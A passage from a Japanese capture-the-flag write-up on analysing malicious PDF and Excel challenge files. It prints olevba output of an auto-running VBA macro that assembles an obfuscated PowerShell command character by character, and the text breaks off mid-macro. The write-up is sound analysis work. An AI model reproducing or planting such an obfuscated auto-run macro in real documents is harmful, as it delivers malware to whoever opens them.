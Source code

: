 > 参考：[PDF - Wikipedia](https://en.wikipedia.org/wiki/PDF)

非常に興味深いことに、PDFには悪意のあるプログラムが埋め込まれる場合があります。

以下のチートシートを見ると、タグやスクリプト、シェルコードやマクロ、Javascriptなど、様々な不正なオブジェクトが埋め来られている場合があるようです。

参考：[Analyzing Malicious Documents Cheat Sheet](https://zeltser.com/analyzing-malicious-documents/)

参考：[SANS Digital Forensics and Incident Response Blog | How to Extract Flash Objects from Malicious PDF Files | SANS Institute](https://www.sans.org/blog/how-to-extract-flash-objects-from-malicious-pdf-files/)

ここで、悪意のあるPDFを解析するために、[PDF Stream Dumper](http://sandsprite.com/blogs/index.php?pid=57&uid=7)などのPDFパーサを使用します。

今回の問題も同様に、PDFの構造を分解して中のテキストやスクリプトを解析することでFlagを取得することができました。

## E・Mo・I・XL

怪しげなExcelファイルが渡されます。

このExcelファイルのVBAスクリプトを解析することでFlagが取得できます。

WaniCTF2021秋でも使いましたが、今回もExcelファイルの中からVBAスクリプトを抽出するために`olevba`を使用しました。

以下が取得できたスクリプトです。

``` bash
# olevba E・mo・XL.xlsm 

olevba 0.60 on Python 2.7.18 - http://decalage.info/python/oletools
===============================================================================
FILE: E・mo・XL.xlsm
Type: OpenXML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO ThisWorkbook.cls 
in file: xl/vbaProject.bin - OLE stream: u'VBA/ThisWorkbook'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Private Sub Workbook_Open()
    Module1.GetPayload
End Sub
-------------------------------------------------------------------------------
VBA MACRO Sheet1.cls 
in file: xl/vbaProject.bin - OLE stream: u'VBA/Sheet1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO Module1.bas 
in file: xl/vbaProject.bin - OLE stream: u'VBA/Module1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Sub GetPayload()
Dim payload As String: payload = vbNullString
Dim ws As Worksheet
Set ws = ThisWorkbook.Worksheets(1)
With ThisWorkbook
    With .BuiltinDocumentProperties
        payload = payload + .Item(ws.Cells(1048573, 16384).Value)
        payload = payload + .Item(ws.Cells(1048574, 16384).Value)
        payload = payload + .Item(ws.Cells(1048572, 16384).Value)
        payload = payload + .Item(ws.Cells(1048575, 16384).Value)
        payload = payload + .Item(ws.Cells(1048576, 16384).Value)
    End With
End With
payload = _
"p" & "w" & "s" & "h" & " " & "-" & "n" & "o" & _
"p" & " " & "-" & "e" & _
"p" & " " & "B" & "y" & _
```